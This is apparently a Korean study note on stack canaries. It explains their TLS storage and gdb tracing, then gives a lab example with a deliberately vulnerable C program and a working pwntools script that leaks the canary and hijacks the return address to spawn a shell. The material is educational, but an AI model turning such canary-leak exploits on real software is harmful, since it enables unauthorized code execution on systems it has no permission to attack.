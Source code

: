 # 배경
스택 카나리는 함수의 프롤로그에서 스택 버퍼와 반환 주소 사이에 임의의 값을 삽입하고, 
함수의 에필로그에서 해당 값의 변조를 확인하는 보호 기법
스택 프레임과 SFP 사이에 실행 시마다 바뀌는 램덤 값을 삽입
스택 버퍼 오버플로우로부터 반환 주소를 보호
만약 이 값이 바뀌게 되면 바로 실행 종료


# Canary 생성 과정
카나리 값은 프로세스가 시작될 때, TLS에 전역 변수로 저장되고, 각 함수마다 프롤로그와 에필로그에서 이 값을 참조
`fs`는 TLS를 가리키므로 `fs`의 값을 알면 TLS의 주소를 알 수 있지만 리눅스에서 `fs`의 값은 특정 시스템 콜을 사용해야만 조회하거나 설정할 수 있음
gdb에서 다른 레지스터의 값을 출력하듯 `info register fs`나, `print $fs`와 같은 방식으로는 값을 알 수 없음
`fs`의 값을 설정할 때 호출되는 `arch_prctl(int code, unsigned long addr)` 시스템 콜에 중단점을 설정하여 `fs`가 어떤 값으로 설정되는지 알 수 있음

```sh
$ gdb -q ./canary
pwndbg> catch syscall arch_prctl
Catchpoint 1 (syscall 'arch_prctl' [158])
pwndbg> run
```

`init_tls()` 안에서 catchpoint에 도달할 때까지 `continue` 명령어를 실행
catchpoint에 도달했을 때, rdi의 값이 `0x1002`인데 이 값은 `ARCH_SET_FS`의 상숫값임
rsi의 값이 `0x7ffff7d7f740`이므로, 이 프로세스는 TLS를 `0x7ffff7d7f740`에 저장할 것이며, `fs`는 이를 가리키게 될 것
한편, 카나리가 저장될 `fs+0x28`(`0x7ffff7d7f740+0x28`)의 값을 보면, 아직 어떠한 값도 설정되어 있지 않음을 확인할 수 있음

```sh
pwndbg> c
...
pwndbg> c
Continuing.
Catchpoint 1 (call to syscall arch_prctl), init_tls (naudit=naudit@entry=0) at ./elf/rtld.c:818
818 ./elf/rtld.c: No such file or directory.
...
─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
*RAX  0xffffffffffffffda
*RBX  0x7fffffffe090 ◂— 0x1
*RCX  0x7ffff7fe3e1f (init_tls+239) ◂— test eax, eax
*RDX  0xffff80000827feb0
*RDI  0x1002
*RSI  0x7ffff7d7f740 ◂— 0x7ffff7d7f740
...
──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
 ► 0x7ffff7fe3e1f     test   eax, eax
   0x7ffff7fe3e21     jne    init_tls+320                
    ↓
   0x7ffff7fe3e70     lea    rsi, [rip + 0x11641]
   0x7ffff7fe3e77     lea    rdi, [rip + 0x11672]
   0x7ffff7fe3e7e     xor    eax, eax
   0x7ffff7fe3e80     call   _dl_fatal_printf                <_dl_fatal_printf>
   0x7ffff7fe3e85     nop    dword ptr [rax]
   0x7ffff7fe3e88     xor    ecx, ecx
   0x7ffff7fe3e8a     jmp    init_tls+161                
   0x7ffff7fe3e8f     lea    rcx, [rip + 0x11be2]          <__pretty_function__.14>
   0x7ffff7fe3e96     mov    edx, 0x31b
...
pwndbg> info register $rdi
rdi            0x1002              4098
pwndbg> info register $rsi
rsi            0x7ffff7d7f740      140737351513920
pwndbg> x/gx 0x7ffff7d7f740 + 0x28
0x7ffff7d7f768: 0x0000000000000000
pwndbg>
```

TLS의 주소를 알았으므로, gdb의 watch 명령어로 TLS+0x28에 값을 쓸 때를 확인
```sh
pwndbg> watch *(0x7ffff7d7f740+0x28)
Hardware watchpoint 4: *(0x7ffff7d7f740+0x28)
```

```sh
pwndbg> continue
Continuing.
Hardware watchpoint 4: *(0x7ffff7d7f740+0x28)
Old value = 0
New value = 2005351680
security_init () at rtld.c:870
870	in rtld.c
```


# Canary 활성화
카나리를 적용하여 컴파일하고, 긴 입력을 주면 `Segmentation fault`가 아니라 `stack smashing detected`와 `Aborted`라는 에러가 발생

```sh
$ gcc -o no_canary canary.c -fno-stack-protector
$ ./no_canaryHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH
Segmentation fault
```

```sh
$ gcc -o canary canary.c
$ ./canary
HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH
*** stack smashing detected ***: <unknown> terminated
Aborted
```

```
   0x00000000000006b2 <+8>:     mov    rax,QWORD PTR fs:0x28     
   0x00000000000006bb <+17>:    mov    QWORD PTR [rbp-0x8],rax   
   0x00000000000006bf <+21>:    xor    eax,eax    
```

```
   0x00000000000006dc <+50>:    mov    rcx,QWORD PTR [rbp-0x8]    
   0x00000000000006e0 <+54>:    xor    rcx,QWORD PTR fs:0x28      
   0x00000000000006e9 <+63>:    je     0x6f0 <main+70>                   
   0x00000000000006eb <+65>:    call   0x570 <__stack_chk_fail@plt>
```

`fs:0x28`의 데이터를 읽는 부분이 있는데, `fs`는 세그먼트 레지스터의 일종으로, 리눅스는 프로세스가 시작될 때 `fs:0x28`에 랜덤 값을 저장함


# Canary 우회
1. Bruetforce
2. TLS 값 참조, 변조
3. 취약점 이용하여 Canary값 읽

# 예시1
```c
#include <stdio.h>
#include <stdlib.h>

void shell(){
    system("/bin/sh");
}

int main(void){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    char buf[50];

    read(0, buf, 200);
    printf(buf);
    read(0, buf, 200);

    return 0;
}
//gcc -fstack-protector -z execstack -no-pie -fno-pie -o canary_leak main.c
```

버퍼값 입력받고 출력한 후 다시 입력받는 구조
버퍼링 제거, canary 활성화, ASLR 비활성화, 코드 실행 스택 활성화

첫 번째 입력할 때, canary 직전까지 입력하면, `printf(buf);`까지 출력해서 canary값을 알아 낼 수 있음
이를 이용해서 shellcode 작성하면 exploit할 수 있음

버퍼 56바이트, Null 1바이트, canary 7바이트, SFP 8바이트, RET 8바이트
```
gef➤  x/100x 0x00007fffffffdde0
0x7fffffffdde0:	0x61616161	0x61616161	0x61616161	0x000a6161
0x7fffffffddf0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffde00:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffde10:	0x00000000	0x00000000	0x195d3200	0x59df5a56
0x7fffffffde20:	0x00000001	0x00000000	0xf7c29d90	0x00007fff
0x7fffffffde30:	0x00000000	0x00000000	0x00401177	0x00000000
```

```python
from pwn import *

shell=0x0000000000401166
main_ret=0x000000000040122b

#p = gdb.debug('./canary_leak')
p = process('./canary_leak')
context.log_level = 'debug'

payload=b'a'*57
p.send(payload)

p.recvuntil("a"*57)

canary_value=b'\x00'+p.recv(7)

payload=b''
payload+=b'a'*56
payload+=canary_value
payload+=b'a'*8
payload+=p64(main_ret)
payload+=p64(shell)

p.sendline(payload)

p.interactive()
```

아래는 exploit한 결과임
canary는 0x39에서 0x3F까지 총 7바이트
shelllcode를 넣을 때 canary도 그대로 재현해서 넣은 모습
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/Pwnable/canary_leak]
└─$ python3 exploit.py 
[+] Starting local process './canary_leak': pid 4915
[DEBUG] Sent 0x39 bytes:
    b'a' * 0x39
/home/foo1/Desktop/kknock/Pwnable/canary_leak/exploit.py:13: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("a"*57)
[DEBUG] Received 0x41 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000030  61 61 61 61  61 61 61 61  61 af 04 83  f1 8d 76 75  │aaaa│aaaa│a···│··vu│
    00000040  01                                                  │·│
    00000041
[DEBUG] Sent 0x59 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000030  61 61 61 61  61 61 61 61  00 af 04 83  f1 8d 76 75  │aaaa│aaaa│····│··vu│
    00000040  61 61 61 61  61 61 61 61  2b 12 40 00  00 00 00 00  │aaaa│aaaa│+·@·│····│
    00000050  66 11 40 00  00 00 00 00  0a                        │f·@·│····│·│
    00000059
[*] Switching to interactive mode
```


# 예시2
[[Dreamhack - Return_to_Shellcode]]
